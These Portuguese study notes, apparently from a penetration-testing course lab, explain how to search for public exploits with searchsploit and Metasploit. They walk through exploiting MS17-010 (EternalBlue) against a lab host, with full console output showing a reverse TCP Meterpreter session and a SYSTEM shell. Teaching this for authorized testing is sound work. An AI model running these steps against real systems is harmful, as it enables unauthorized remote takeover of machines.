Depois de enumerar o sistema usando nmap, o primeiro passo é procurar exploits públicos da versão do serviço em questão

Obviamente, a maior quantidade de exploits públicos que você pode encontrar está no mecanismo de busca do google, pesquisar o sistema e serviço seguido da palavra exploit vai te fornecer várias alternativas e.g:`windows 7 smb exploit`

Searchsploit é uma ferramenta de busca na CLI especifica para busca de exploits

`sudo apt install exploitdb -y`

`searchsploit smb 1.0`

## Metasploit
Ferramenta paa busca e execução de exploits, é usado para reconhecimento do host, teste de vulnerabilidade sem invadir o alvo, conexão de shell para usar comandos no alvo e execução de exploits

`msfconsole`
dentro do msf:
```shell-session
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```
Para usar o exploit:
`use <id> 4 ou exploit/windows/smb/ms17_010_psexec`
Para alterar algum configuração usamo `set <config>` config pode ser o host remoto (RHOST) host local (LHOST), payload

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

para verificar se o alvo é vulnerável

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```